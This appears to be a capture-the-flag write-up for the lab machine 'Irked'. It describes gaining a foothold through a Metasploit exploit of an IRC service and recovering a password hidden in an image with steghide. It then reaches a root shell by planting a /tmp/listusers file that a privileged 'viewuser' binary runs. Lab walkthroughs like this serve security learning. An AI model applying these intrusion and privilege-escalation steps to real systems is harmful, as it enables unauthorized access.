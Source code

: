 # 🖇 Irked

## Enumeration

We found port 6697 running Unrealized with version BTW 2-4.

Then we search for an exploit and we get metasploit exploit which then we search google for the same and we find an exploit and get Initial Foothold.

## Privilege Escalation

### Steg

We find and bash history file with out put

```
ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

We search for steg and we find that it helps with encrypting hidden content.

In the enumeration phase we see that  there is an angry emoji image on the website.

We use steg to extract any hidden info

```
steghide info irked.jpg
```

We see there is an pass.txt file

```
steghide extract -sf irked.jpg
```

Then it asks for an password for which we can use the text we extracted from backup.

Then wee ssh using the uname and passwd and get the user.txt

### Priv To Root

After Some enumeration we see viewuser in usr/bin folder

```
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/0 2020-05-03 13:05 (10.10.14.37)
sh: 1: /tmp/listusers: not found
```

We see /tmp/listusers not found

So we create an file listusers in tmp folder with content

```
!bin/sh
bash
```

the nrun viewuser again / and we get root shell
